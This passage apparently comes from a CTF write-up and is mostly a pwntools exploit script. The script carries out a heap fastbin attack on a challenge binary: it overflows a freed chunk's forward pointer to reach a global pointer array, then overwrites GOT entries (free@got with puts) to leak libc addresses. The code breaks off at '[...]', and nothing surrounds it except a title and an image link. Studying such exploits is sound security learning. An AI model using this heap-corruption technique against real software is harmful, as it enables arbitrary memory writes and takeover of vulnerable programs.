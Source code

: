 

### diff exp.py exp-fastbin.py

```python
def pwn(io):
    log.info("[1] malloc 0x30 times ")
    # binary don't have setbuf , heap looks like : gets's chunk, first user malloc chunk, printf's chunk
    create(0x400) # 1 first chunk in data[] number is 1 ;because ++malloc_times
    
    for i in range(0x2f):
        create(0x20)

    log.info("[2] free chunk3 , overflow chunk3'fd , fastbin attack ")
    delete(3)
    # gdb.attach(io,'break *0x400C85') # 0x0000000000400C85 atoi in main
    payload = 0x28*"a" + p64(0x31) + p64(0x0000000000602100-8) 
    input(2, len(payload), payload)
    create(0x20) # 0x31

    create(0x20) # 0x32

    # gdb.attach(io,'break *0x400C85') # 0x0000000000400C85 atoi in main
    log.success("fastbin attach success! we can arbitrary write now!")

    log.info("[3] write puts@plt into free@got and call puts(puts@got)")
    #                                         1               2                3               4 
    payload2_globalptr = p64(0)*8  + p64(elf.got['free']) + p64(0xdeadbeaf) + p64(elf.got['puts']) + p64(0x400DEC) # //TODO
    input(0x32, len(payload2_globalptr), payload2_globalptr)
    [...]
```

![image-20181203134749112](./img/image-20181203134749112.png)